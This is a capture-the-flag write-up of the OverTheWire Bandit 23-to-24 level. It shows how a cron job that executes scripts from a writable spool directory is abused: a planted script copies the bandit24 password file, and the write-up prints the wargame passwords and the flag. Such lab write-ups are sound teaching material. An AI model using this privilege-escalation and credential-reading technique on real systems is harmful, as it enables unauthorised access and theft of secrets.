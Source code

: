 # CTF Writeup - **OverTheWire Bandit23 - Bandit24**

**Author**: spiketyson  

---

## Challenge Details

- **Challenge Name:** Bandit23 - Bandit24
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 22-11-2024

---

## Summary

This challenge is the level22 for the Bandit series on OverTheWire, focusing on basic Linux command-line skills. A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.  This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!. Keep in mind that your shell script is removed once executed, so you may want to keep a copy around
---

## Approach

Since this is an easy challenge, I planned to use basic Linux commands like `ls`, `cat`, `cd`,`mktemp` to explore the server and retrieve the flag.

---

## Solution Walkthrough

Connect to the server using the `ssh` command as below:

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
# Password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

After logging in, Lets explore the `/etc/cron.d` directory using ls command as shown below.

```bash
ls -la /etc/cron.d
# Output: 
# total 44
# drwxr-xr-x   2 root root  4096 Sep 19 07:10 .
# drwxr-xr-x 121 root root 12288 Sep 20 18:37 ..
# -rw-r--r--   1 root root   120 Sep 19 07:08 cronjob_bandit22
# -rw-r--r--   1 root root   122 Sep 19 07:08 cronjob_bandit23
# -rw-r--r--   1 root root   120 Sep 19 07:08 cronjob_bandit24
# -rw-r--r--   1 root root   201 Apr  8  2024 e2scrub_all
# -rwx------   1 root root    52 Sep 19 07:10 otw-tmp-dir
# -rw-r--r--   1 root root   102 Mar 31  2024 .placeholder
# -rw-r--r--   1 root root   396 Jan  9  2024 sysstat
```

Here we can find a file related to `bandit24`. As we are looking for `bandit24` password `cronjob_bandit24` seems interesting. lets see the contents of the file.  

```bash
cat cronjob_bandit24
# @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
# * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Cronjobs are programs run automatically at regular intervals. In Linux, there are multiple folders that can contain these cronjobs. We know that at regular interval `cronjob_bandit24` is being executed. Here we can see that `cronjob_bandit24` is executing the file `/usr/bin/cronjob_bandit24.sh`
Lets see the contents of this file. 

```bash
cat /usr/bin/cronjob_bandit24.sh
# #!/bin/bash
# myname=$(whoami)
# cd /var/spool/$myname/foo
# echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
# for i in * .*;
# do
#     if [ "$i" != "." -a "$i" != ".." ];
#     then
#         echo "Handling $i"
#         owner="$(stat --format "%U" ./$i)"
#         if [ "${owner}" = "bandit23" ]; then
#             timeout -s 9 60 ./$i
#         fi
#         rm -f ./$i
#     fi
# done
```

It looks like the `cronjob_bandit24.sh` is getting the current user information by execution `whoami` which in our case will be `bandit23`, with this name it moves a directory `/var/spool/bandit23/foo` in our case. Tries executing all the files that are present in the directory and the removes all the files in that directory so that no one can copy them. The idea here is that we can execute a script as `bandit24` if its copied to that location. Lets create a script that copies `bandit24` password and copies it to a text file in our temp directory. But this is only possible if it is executed by `bandit24`. First we need to create a temporary directory as we dont have permission to create any files in the local.  


```bash
mktemp -d 
# /tmp/tmp.KSblvOUbhU
cd /tmp/tmp.KSblvOUbhU
nano bandit24_password.sh
# #!/bin/bash
# cat /etc/bandit_pass/bandit24 > /tmp/tmp.KSblvOUbhU/password.txt
chmod 777 bandit24_password.sh
cp bandit24_password.sh /var/spool/bandit24/foo
```

We can see that aftere creating the file we need to make the file executable by giving necessary permissions. We can do that be using `chmod` as shown above. Then we need to copy this file to `/var/spool/bandit24/foo` as this is where the cronjob executes all the files with `bandit24` as owner in the directory and removes them. Once we can copied, we need to wait for 2 mins after that we can see a passowrd.txt file being created in our tempdirectory. Now we can explore the flag using `cat` command.

```bash
cat password.txt
# FLAG{gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8}
```

---

## Flag

**Flag:**  gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

---

## Lessons Learned
It was a good challenge that made me think how i should think like an attacker and how to exploit privelages.